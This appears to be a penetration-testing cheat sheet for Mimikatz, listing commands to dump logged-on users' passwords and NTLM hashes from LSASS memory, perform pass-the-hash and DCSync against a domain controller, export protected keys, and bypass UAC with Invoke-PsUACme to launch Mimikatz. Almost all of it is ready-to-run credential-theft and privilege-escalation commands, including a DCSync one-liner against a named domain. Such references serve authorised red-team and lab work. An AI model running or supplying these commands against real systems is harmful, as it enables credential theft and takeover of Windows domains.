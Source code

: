 
## Mimikatz

After starting `mimikatz.exe`, run the command `privilege::debug` to enable `SeDebugPrivilege` and run `token::elevate`
```
sekurlsa::logonpasswords                                                           Dump the credentials of all logged-on users
sekurlsa::tickets                                                                  Tickets stored in memory
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:powershell       Overpass the Hash
sekurlsa::msv                                                                      Extracting NTLM hashes from LSASS memory
crypto::capi                                                                       Make non-exportable keys exportable; CryptoAPI function
crypto::cng                                                                        Make non-exportable keys exportable; KeyIso service
lsadump::dcsync /user:<domain>\<user>                                              Domain Controller Synchronization
lsadump::lsa /patch                                                                Dump the hashes
```

Other commands to run
- `log`
- `lsadump::sam`
- `lsadump::secrets`
- `lsadump::cache`
- `lsadump::ekeys`

Notes
- If `privilege::debug` doesn't work, try with:
  - `. .\Invoke-PsUACme.ps1`
  - `Invoke-PsUACme -method oobe -Payload "powershell -ExecutionPolicy Bypass -noexit -file C:\temp\mimikatz.exe"`
- You can: steal credentials, generate Kerberos tickets, dump credentials stored in memory and leverage attacks
- A few attacks: Credential dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket
- See https://github.com/gentilkiwi/mimikatz/wiki
- The first thing to do is always to run `privilege::debug`
- See: https://github.com/drak3hft7/Cheat-Sheet---Active-Directory
- With mimikatz you can turn on the feature widgets. It enables you to see then password in plain text for users that logon and log off
- See also `Invoke-Mimikatz`
- Use `/patch` with a command, it might work
   - esempio: `lsadump::sam /patch`
- https://adsecurity.org/?page_id=1821
- You can also run commands like this: `.\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit`, especially if you see the prompt going nuts


## Active Directory Authentication Attacks
